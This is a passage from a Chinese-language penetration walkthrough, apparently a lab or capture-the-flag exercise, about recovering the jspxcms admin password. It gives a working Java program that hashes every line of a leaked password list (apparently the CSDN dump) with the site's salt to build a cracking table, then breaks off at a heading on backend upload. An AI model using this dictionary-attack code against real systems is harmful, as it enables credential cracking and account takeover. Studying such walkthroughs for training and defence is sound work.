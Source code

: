#### 解密密码

获取的明文是不能直接解密的，jspxcms 登录是sha1(‘明文’,salt)加密，这一点可在源码里明了

编写脚本，类似 MD5 那样撞库得出密码的明文

```java
package com.jspxcms.core;
import com.jspxcms.common.security.SHA1CredentialsDigest;
import com.jspxcms.common.util.Encodes;

import java.io.File;
import java.io.FileReader;
import java.io.FileWriter;
import java.io.PrintWriter;
import java.util.Scanner;


public class Testmain {
    public static void main(String[] args)throws Exception {
        byte[] salt = Encodes.decodeHex("9b2b38ad7cb62fd9");
        SHA1CredentialsDigest test = new SHA1CredentialsDigest();
        String fileName = "D:\\csdnpass.txt";
        String fileName2 = "D:\\hashpassword2.txt";
        try (Scanner sc = new Scanner(new FileReader(fileName))) {
            while (sc.hasNextLine()) {
                String line = sc.nextLine();
                String encPass = test.digest(line, salt);
                File f = new File(fileName2);
                FileWriter fw = new FileWriter(f, true);
                PrintWriter pw = new PrintWriter(fw);
                pw.println(line + " " + encPass);
                pw.close();
            }

        }
    }
}
```

<img src=".\图片\Snipaste_2023-05-22_18-17-30.png" alt="Snipaste_2023-05-22_18-17-30" style="zoom:80%;" />

### jspcms后台上传
